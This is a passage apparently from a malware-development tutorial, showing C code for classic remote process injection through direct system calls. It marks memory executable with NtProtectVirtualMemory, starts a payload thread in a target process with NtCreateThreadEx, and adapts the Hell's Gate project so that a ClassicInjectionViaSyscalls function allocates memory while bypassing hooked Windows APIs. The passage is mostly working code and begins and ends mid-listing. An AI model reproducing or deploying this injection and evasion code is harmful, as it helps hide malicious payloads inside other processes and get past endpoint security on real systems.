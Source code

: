 ```c
	// Changing the memory's permissions to RWX
	if ((STATUS = NtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Executing the payload via thread 
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

	return TRUE;
}
```

### Implementation Using Hell's Gate

The last implementation for this module is using Hell's Gate. First, ensure that the same steps done to set up the Visual Studio project with SysWhispers3 are done here too. Specifically, enabling MASM and modifying the properties to set the ASM file to be compiled using the Microsoft Macro Assembler.

#### Changing Payload Function

A few changes need to be made to the Hell's Gate code. First, the [Payload function](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L166) must be replaced with the `ClassicInjectionViaSyscalls` function.

```c
BOOL ClassicInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	NTSTATUS	STATUS                  = 0x00;
	PVOID		pAddress                = NULL;
	ULONG		uOldProtection          = NULL;

	SIZE_T		sSize                   = sPayloadSize,
			    sNumberOfBytesWritten   = NULL;
	HANDLE		hThread	                = NULL;


	// Allocating memory 
	HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();

//--------------------------------------------------------------------------

```